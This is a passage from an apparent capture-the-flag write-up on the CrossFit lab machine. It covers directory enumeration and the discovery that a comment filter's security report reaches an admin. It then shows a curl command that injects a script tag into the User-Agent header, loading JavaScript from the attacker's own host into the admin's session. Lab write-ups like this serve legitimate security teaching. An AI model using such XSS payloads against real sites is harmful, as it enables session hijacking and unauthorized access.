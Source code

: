 ```
/schedule.php (Status: 200)
/db.php (Status: 200)
/js (Status: 301)
/about-us.php (Status: 200)
/vendor (Status: 301)
/fonts (Status: 301)
/functions.php (Status: 200)
/security_threat (Status: 301)
===============================================================
2021/01/22 17:29:16 Finished
===============================================================

```

The directory is listable:

![image-20210122171046406](https://0xdfimages.gitlab.io/img/image-20210122171046406.png)

Visiting `report.php` just returns:

> Your are not allowed to access this page.

## Shell as www-data

### Identify XSS

#### Enumeration

I tried to post a comment to the the form at the bottom of the blog post. On doing so, it says that the content will be evaluated by a moderator:

![image-20210122172904544](https://0xdfimages.gitlab.io/img/image-20210122172904544.png)

Given the fact it will be reviewed and the box name (CROSSfit), this seems like a good place to try a cross site scripting (XSS) attack. I added `<script>` tags to my post:

![image-20210122173038053](https://0xdfimages.gitlab.io/img/image-20210122173038053.png)

On submitting, it returns a warning:

![image-20210122173102831](https://0xdfimages.gitlab.io/img/image-20210122173102831.png)

#### POC

I wasted a lot of time trying to get an XSS payload to get past this filter and return the success message. Eventually, I noticed the text of the warning. “A security report containing your IP address and browser information will be generated and our admin team will be immediately notified.” What if I can get an XSS payload into that report, and get JavaScript running in the admin team’s session?

Because the browser information is called out as included in that report, I’ll add an XSS payload to the request user agent string. I’ll send the following POST using `curl`:

```

root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/"></script>'

```
